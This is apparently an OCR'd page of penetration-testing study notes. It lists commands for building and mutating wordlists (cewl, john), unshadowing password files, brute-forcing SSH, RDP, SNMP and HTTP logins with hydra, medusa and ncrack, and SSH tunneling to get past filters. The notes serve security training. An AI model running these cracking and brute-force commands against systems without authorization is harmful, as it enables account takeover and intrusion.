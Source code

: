#### #pass bruting / dumping
    * key-space search
        * crunch
    * password profiling
        ```
        cewl www.domain.com -m 6 -w domain-cewl.txt
        ``
    * password mutating
        ```
        john --wordlist=list-cewl.txt --rules --stdout > mutated.txt

        john 127.0.0.1.pwdump  # for fgdump
        john --wordlist=domain-cewl.txt --rules --stdout > mutated.txt
        unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
        ```
    * medusa, ncrack, hydra
        ```
        medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
        ncrack -vv --user offsec -P password-file.txt rdp://$ip
        hydra -P password-file.txt -v $ip snmp
        hydra -l root -P password-file.txt $ip ssh
        ```
    * hash-identifier (https://code.google.com/p/hash-identifier/)
    

#### #tunneling
    * port forwarding (rinetd or iptables)
        * outbound filter to specific port -> rinetd on home computer on filtered port that redirects traffic to destination port
        ```
        cat /etc/rinetd.conf
        # bindadress bindport connectaddress connectport
        ```

    * ssh tunneling
        * local
            ```
            # reach external computer listening on restricted port
            ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
            # <remote host>:<remote port> - we want connection to it
            now we connect (from filtered, internal network) to localhost:<local port to listen> -> ssh via <gateway> -> <remote host>:<remote port>
            ```

        * remote
            ```
            # expose port to external computer
            ssh <gateway> -R <remote port to bind>:<local host>:<local port>
